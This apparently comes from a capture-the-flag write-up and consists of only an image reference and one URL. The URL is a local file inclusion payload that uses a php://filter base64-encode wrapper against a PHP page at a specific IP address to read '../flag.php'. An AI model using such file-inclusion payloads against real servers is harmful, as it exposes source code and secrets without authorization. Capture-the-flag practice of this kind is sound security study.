 http://118.25.18.223:10012/show_maopian.php?mao=php://filter/read=convert.base64-encode/resource=../flag.php